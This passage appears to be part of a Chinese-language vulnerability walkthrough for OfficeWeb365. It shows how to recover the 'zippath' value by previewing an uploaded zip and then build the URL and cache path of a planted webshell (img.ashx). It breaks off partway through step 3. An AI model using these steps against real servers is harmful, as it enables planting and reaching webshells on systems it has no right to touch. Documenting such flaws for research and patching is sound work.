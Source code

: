 ![](assets/1706859049-cb5ed94c6e8c4edb0043404c9cc4a927.png)

2、找路径 - 预览拿到路径去拼接-shell 路径--去本地看到物理路径--为什么 zip 里要有个 jpg，只是为了拿到 zippath 这串数字

[http://10.10.11.167:8088/?hostPort=xxxxx.88&zippath=823082917202033900300451\_125122&fname=zip%5Cyct.jpg](http://10.10.11.167:8088/?hostPort=43.156.64.240.88&zippath=823082917202033900300451_125122&fname=zip%5Cyct.jpg)

```php
C:\OfficeWeb365\officeweb\cache\office\xxxxx.88\823082917202033900300451_125122\zip\img.ashx

http://10.10.11.167:8088/?hostPort=xxxxx.88&zippath=823082917202033900300451_125122&fname=zip\yct.jpg

http://10.10.11.167:8088/cache/office/xxxxx.88/823082917202033900300451_125122/zip/img.ashx
```

![](assets/1706859049-c35e3d2d044f57c356e6829d33fa05df.png)

随后即可发现网站对该 zip 进行了下载和解压，这里可以预览 txt 格式文件获取 zippath 参 数的值

3、everything 确定 shell 位置 - 然后 ashx 文件的地址即为：
